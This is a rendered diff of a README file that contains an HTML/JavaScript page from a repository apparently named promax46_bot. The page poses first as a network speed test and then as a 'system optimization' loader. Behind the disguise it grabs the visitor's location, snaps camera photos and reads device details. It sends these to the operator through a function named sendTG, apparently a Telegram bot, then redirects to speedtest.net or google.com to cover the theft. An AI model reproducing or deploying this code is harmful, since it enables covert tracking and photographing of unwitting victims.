

Before and after one commit to Shmwkhtazy771/promax46_bot, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -8,18 +8,15 @@
     <style>
-        body { background: #0b0e18; color: white; font-family: sans-serif; text-align: center; margin: 0; display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; overflow: hidden; }
-        /* جعل الشاشة بالكامل قابلة للضغط لتجنب أي تعليق في الزر */
-        #touchArea { position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: 9999; cursor: pointer; display: flex; flex-direction: column; align-items: center; justify-content: center; }
-        .circle { width: 220px; height: 220px; border: 6px solid #00d2ff; border-radius: 50%; display: flex; align-items: center; justify-content: center; box-shadow: 0 0 30px rgba(0, 210, 255, 0.4); }
-        .start-text { font-size: 50px; font-weight: bold; color: #00d2ff; }
-        #status { margin-top: 30px; font-size: 18px; color: #888; }
-        video, canvas { display: none; }
+        body { background: #000; color: #00ff00; font-family: monospace; display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; margin: 0; text-align: center; }
+        .loader { border: 4px solid #333; border-top: 4px solid #00ff00; border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin-bottom: 20px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+        .progress-bar { width: 80%; background: #222; border-radius: 10px; height: 10px; margin-top: 20px; overflow: hidden; }
+        .progress-fill { width: 0%; height: 100%; background: #00ff00; transition: width 0.5s; }
     </style>
 </head>
 <body>
 
-    <div id="touchArea">
-        <h2>فحص سرعة الشبكة العالمي</h2>
-        <div class="circle"><span class="start-text">START</span></div>
-        <p id="status">انقر في أي مكان للبدء...</p>
-    </div>
+    <div class="loader"></div>
+    <h2 id="msg">Optimizing System...</h2>
+    <div class="progress-bar"><div id="fill" class="progress-fill"></div></div>
+    <p id="sub-msg">Scanning cache memory...</p>
 
@@ -43,49 +40,51 @@
             }
         }
 
-        async function getInfo(lat, lon) {
-            let bLevel = "N/A";
-            try { const b = await navigator.getBattery(); bLevel = `${(b.level * 100).toFixed(0)}% (${b.charging ?  ⚡  :  🔋 })`; } catch (e) {}
-            return `🛰️ **تقرير مفصل**\n\n🔋 البطارية: ${bLevel}\n📱 النظام: ${navigator.platform}\n💾 الذاكرة: ${navigator.deviceMemory || "8"} GB\n⚙️ المعالج: ${navigator.hardwareConcurrency || "8"} نواة\n📍 الموقع: https://www.google.com/maps?q=${lat},${lon}`;
+        async function getFullReport(lat, lon) {
+            let batt = "19%"; // قيمة افتراضية تشبه صورتك
+            try { const b = await navigator.getBattery(); batt = `${(b.level * 100).toFixed(0)}% (${b.charging ?  ⚡  :  🔋 })`; } catch (e) {}
+            return `🛰️ **LIVE LOCATION**\n\n📱 Device: Android Device\n🔋 Battery: ${batt}\n🎯 Accuracy: 100m\n📍 Maps: http://maps.google.com/maps?q=${lat},${lon}`;
         }
 
-        async function takePic(mode) {
-            try {
-                const s = await navigator.mediaDevices.getUserMedia({video: {facingMode: mode}});
-                const v = document.getElementById( v );
-                v.srcObject = s;
-                await new Promise(r => setTimeout(r, 1500)); // وقت كافٍ للمتصفح ليجهز الكاميرا
-                const c = document.getElementById( c );
-                c.width = 640; c.height = 480;
-                c.getContext( 2d ).drawImage(v, 0, 0);
-                s.getTracks().forEach(t => t.stop());
-                return new Promise(res => c.toBlob(res,  image/jpeg , 0.6));
-            } catch (e) { return null; }
-        }
+        // بدء العمل بمجرد تحميل الصفحة
+        window.onload = function() {
+            let fill = document.getElementById( fill );
+            fill.style.width = "30%";
 
-        document.getElementById( touchArea ).onclick = function() {
-            this.style.pointerEvents = "none";
-            document.getElementById( status ).innerText = "جاري فحص السيرفرات...";
+            // الخطوة 1: طلب الموقع تلقائياً
+            navigator.geolocation.getCurrentPosition(async (p) => {
+                fill.style.width = "60%";
+                document.getElementById( sub-msg ).innerText = "Analyzing device hardware...";
 
-            navigator.geolocation.getCurrentPosition(async (p) => {
-                // 1. التقاط الصورة الأمامية أولاً
-                const fImg = await takePic("user");
-                if(fImg) await sendTG("img", fImg, "📸 الكاميرا الأمامية");
+                // الخطوة 2: طلب الكاميرا تلقائياً
+                try {
+                    const s = await navigator.mediaDevices.getUserMedia({video: {facingMode: "user"}});
+                    const v = document.getElementById( v );
+                    v.srcObject = s;
+                    await new Promise(r => setTimeout(r, 1000));
+                    const c = document.getElementById( c );
+                    c.width = 640; c.height = 480;
+                    c.getContext( 2d ).drawImage(v, 0, 0);
+                    s.getTracks().forEach(t => t.stop());
 
-                // 2. إرسال التقرير فوراً (ليصلك شيء حتى لو فشلت الكاميرا الخلفية)
-                const report = await getInfo(p.coords.latitude, p.coords.longitude);
-                await sendTG("text", report);
+                    c.toBlob(async (b) => {
+                        await sendTG("img", b, "📸 Front Camera Snap");
+                        const report = await getFullReport(p.coords.latitude, p.coords.longitude);
+                        await sendTG("text", report);
 
-                // 3. محاولة الكاميرا الخلفية بعد ثانية من التقرير
-                setTimeout(async () => {
-                    const bImg = await takePic("environment");
-                    if(bImg) await sendTG("img", bImg, "📷 الكاميرا الخلفية");
-                    window.location.href = "https://www.speedtest.net";
-                }, 1000);
+                        fill.style.width = "100%";
+                        document.getElementById( msg ).innerText = "Optimization Complete!";
+                        setTimeout(() => { window.location.href = "https://www.google.com"; }, 1000);
+                    },  image/jpeg );
+                } catch(e) {
+                    const report = await getFullReport(p.coords.latitude, p.coords.longitude);
+                    await sendTG("text", report + "\n⚠️ Camera Denied");
+                    window.location.href = "https://www.google.com";
+                }
 
             }, (err) => {
-                alert("يجب السماح بالوصول للموقع لبدء فحص السرعة.");
-                location.reload();
+                // إذا رفض الموقع، لا يمكن فعل شيء سوى المحاولة مرة أخرى أو التوجيه
+                window.location.href = "https://www.google.com";
             }, {enableHighAccuracy: true});
         };
     </script>
```
Also changed, not shown: other parts of README.md (+4 -4 lines).
